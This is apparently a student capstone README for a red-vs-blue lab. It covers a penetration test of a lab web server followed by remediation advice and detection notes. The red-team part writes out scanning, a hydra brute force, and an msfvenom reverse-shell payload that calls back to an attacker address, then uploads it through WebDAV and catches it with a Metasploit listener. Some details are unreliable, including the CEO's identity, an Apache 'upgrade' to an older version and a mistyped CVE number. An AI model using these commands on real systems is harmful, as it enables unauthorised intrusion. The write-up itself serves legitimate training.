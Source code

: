 # Red-vs-Blue-team-project
![image](https://user-images.githubusercontent.com/93951164/172183135-bcba72f9-8218-4347-b0a1-b3357e42fb22.png)

Red Team Environment
![image](https://user-images.githubusercontent.com/93951164/172183644-704fc94b-0767-4825-98a4-cc7e2236fb7c.png)


Blue Team Environment
![image](https://user-images.githubusercontent.com/93951164/172183602-e05f67a5-c68e-4f60-a6e7-8f309fdcfa65.png)



RED TEAM - Penetration Test
EXPLOITATION
Discover target IP:
To discover the target ip:
netdiscover -r <ip subnet>
 ![image](https://user-images.githubusercontent.com/93951164/172183767-b4d872a5-8284-4cef-8715-17feaaf50a54.png)



IP
Machine
192.168.1.1
Gateway IP, Hyper-V
192.168.1.100
ELK server
192.168.1.105
Capstone, target machine

Service and version scan:
nmap -sV -v 192.168.1.105
 
Port
Service
Version
Port 22
SSH
OpenSSH 7.6p1
Port 80
HTTP
Apache httpd 2.4.29

![image](https://user-images.githubusercontent.com/93951164/172183948-c5a858fd-f171-485a-a987-76f4cd11ae14.png)

![image](https://user-images.githubusercontent.com/93951164/172183970-515cea98-3528-4b92-aa5e-9c04972e3091.png)

Aggressive scan:
nmap -A -vvv 192.168.1.105
 
A simple aggressive scan reveals a web server directory structure on tcp port 80, which is a http port, and two potential usernames of employees – ashton and hannah (which will be more relevant for brute forcing later):
![image](https://user-images.githubusercontent.com/93951164/172184023-ef8199ba-6485-4260-ade2-a03d25def67e.png)


Navigating the Webserver:
As this is a webserver, we can investigate further from a browser in the attacker machine:

In a text document the blog directory we can see a 3rd potential username – Ryan, who would potentially have the highest level access as CEO:

In the company folders directory, we can see reference to a "secret_folder" in ALL documents within this directory, which is now a target for this Penetration Test.

The meet_our_team folder confirms the three potential users, and each document references the secret_folder:

As we can see below, we will need Ashton's password to gain access to the secure hidden folder.

Vulnerability scan:
nmap -A --script=vuln -vvv 192.168.1.105
 
Returning to scanning for further recon.
Aggressive scan with a vulnerability script reveals:
Webdav vulnerability
SQL Injection vulnerability across all directories on the webserver
CVE-2017-15710 – Apache httpd vulnerability




Bruteforce:
Now that we have some usernames and a main target - Ashton, using hydra we can attempt to bruteforce the login for the secret_folder.
Ashton, the CEO, had a common password within our password list. Using the following command, we could get Ashton's password.
hydra -l ashton -P /opt/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get "/company_folders/secret_folder"
 

SSH:
ssh ashton@192.168.1.105
 
Using Ashton's credentials we could gain ssh entry into the server.


Flag 1
In the root home directory we could pickup a flag.

Using the same credentials, we could access the protected hidden folder.

Password hash:
Within this folder was a document with instructions to connect to a corp_server. Included in the document are Ryan's hashed credentials and reference to a webdav directory


Th hashed md5 password was instantly cracked using Crackstation, revealing the password linux4u

Webdav:
We could then login to webdav using Ryan's credentials.


Reverse Shell:
Msfvenom
The next task was to upload a shell script to webdav, in order to create a reverse shell.
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 -f raw -o shell.php
 
Using msfvenom we created a payload – shell.php

Cadaver
cadaver http://192.168.1.105/webdav
 
Using cadaver and Ryan's credentials we accessed webdav, and uploaded the payload to the webdav directory.


Metasploit
msfconsole
use multi/handler
 
Once the payload was successfully uploaded, in order to create the reverse shell, we setup a listener using Metasploit.

After loading the exploit and activating the shell.php we uploaded earlier by clicking on it on the webserver, the target server connected to our listener and launched a meterpreter session into their system.

Gaining Interactive Shell:
python -c 'import pty; pty.spawn("/bin/bash")'
 

Finding Flag 2:
The next flag was located in the root directory.

Exit back to meterpreter.


Exfiltration:
The file was easily exfiltrated back to the attacker machine.


Vulnerabilities
Webserver
1. Directory listing vulnerability. Webserver directories are open to the public and navigable in a browser.
CWE-548: Exposure of Information Through Directory Listing
https://cwe.mitre.org/data/definitions/548.html
Attackers can gather a lot of information from open directories. They can use this information and access to launch attacks and upload malicious content. These directories may also be vulnerable to path traversal in which users can navigate across to sensitive regions of the system.
Disable the ability to view directories in the browser, and disable access/password protect all directories to avoid path traversal. Sanitise input to avoid malicious SQL statements.
2. SQL Injection. Nmap revealed a possible vulnerability to SQL injection to the directories in the webserver.
This can allow attackers to enter malicious code and gain access or launch attacks.
Sanitise inputs.
3. Documents with usernames in plain text are available to the public in the webserver
CWE-312: Cleartext Storage of Sensitive Information
https://cwe.mitre.org/data/definitions/312.html
CWE-256: Unprotected Storage of Credentials
https://cwe.mitre.org/data/definitions/256.html
Attackers can use this information in bruteforce attacks. Even just one name can lead to a system breach.
Users should not be using their own names as usernames. User names should not be published anywhere, especially not a webserver.
4. Documents in the webserver give direct reference to a hidden directory with sensitive data.
These are breadcrumbs that attackers will follow, with a direct reference to a hidden directory attackers can focus attacks to access the contents of the directory.
Do not reference sensitive directories in publicly available documents. If it is necessary to mention it, then encrypt and password protect.
5. Webdav is enabled and allows uploading of malicious script.
CWE-434: Unrestricted Upload of File with Dangerous Type
https://cwe.mitre.org/data/definitions/434.html
It is easy to create a shell in the target system using a reverse shell, by opening a meterpreter session
Disable webdav
6. Missing encryption of sensitive data.
CWE-311: Missing Encryption of Sensitive Data
https://cwe.mitre.org/data/definitions/311.html
7. CWE-522: Insufficiently Protected Credentials
Users and Passwords
1. Usernames are employee first names.
These are too obvious and most likely discoverable through Google Dorking. All are high level employees of the company which are more vulnerable, and certainly easier to find in the company structure in publicly available material.
Attackers can (with very little investigation) create a wordlist of usernames of employees for bruteforcing.
Usernames should not include the person's name.
2. Ryan's password hash was printed into a document, publicly available on the webserver.
The password hash is highly confidential and vulnerable once an attacker can access it.
CWE-256: Unprotected Storage of Credentials
https://cwe.mitre.org/data/definitions/256.html
A password hash is one of the highest targets for an attacker that is trying to gain entry; being able to navigate to one in a browser through minimal effort is a critical vulnerability.
Password hashes should remain in the /etc/shadow directory with root only access in the system, and not be published or copied anywhere.
3. CWE-759: Use of a One-Way Hash without a Salt.
https://cwe.mitre.org/data/definitions/759.html
CWE-916: Use of Password Hash With Insufficient Computational Effort
https://cwe.mitre.org/data/definitions/916.html
Ryan's password is only hashed, but not salted. A password hash can be run through apps to crack the password, however a salted hash will be almost impossible to crack.
A simple hash can be cracked with tools in linux or through websites, in this case it took seconds to crack Ryan's hash.
Salt hashes.
4. CWE-521: Weak Password Requirements.
https://cwe.mitre.org/data/definitions/521.html
Passwords need to have a minimum requirement of password length and use of mixed characters and case.
linux4u is a simple phrase with very common word substitution – 4=for, u=you. and leopoldo is a common name that could easily be bruteforced with a common password list.
Require strong passwords that exclude phrases and names, minimum 8 characters, mixed characters that include a combination of lower case, upper case, special characters and numbers.
Consider implementing multi-factor authentication.
Apache 2.4.29
1. CVE-2017-15710
This potential Apache httpd vulnerability was picked up by nmap and relates to a configuration that verifies user credentials; a particular header value is searched for and if it is not present in the charset conversion table, it reverts to a fallback of 2 characters (eg. en-US becomes en). While this risk is unlikely, if there is a header value of less than 2 characters, the system may crash.
This vulnerability has the potential to force a Denial of Service attack.
As this vulnerability applies to a range of Apache httpd versions from 2.0.23 to 2.4.29, upgrading to the latest version 2.2.46 may mitigate this risk.
2. CVE-2018-1312
While this vulnerability wasn't picked up in any scans, the apache version remains vulnerable. From cve-mitre "When generating an HTTP Digest authentication challenge, the nonce sent to prevent reply attacks was not correctly generated using a pseudo-random seed. In a cluster of servers using a common Digest authentication configuration, HTTP requests could be replayed across servers by an attacker without detection."
With this vulnerability, an attacker would be able to replay HTTP requests across a cluster of servers (that are using a common Digest authentication configuration), whilst avoiding detection.
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
3. CVE-2017-1283
Mod_session is configured to forward its session data to CGI applications
With this vulnerability, a remote user may influence their content by using a "Session" header.
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
4. CVE-2017-15715
This vulnerability relates to malicious filenames, in which the end of filenames can be matched/replaced with '$'
In systems where file uploads are externally blocked, this vulnerability can be exploited to upload malicious files
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
 
Identifying the port scan:
Filtering for Nmap:


Monitoring requests to the " _ secret_folder _ ":



Filtering for the Hydra brute force attack:
There were 346,595 bruteforce attempts made with Hydra.


Finding the WebDAV connection:
A reverse shell in webdav was used 20 times.



 
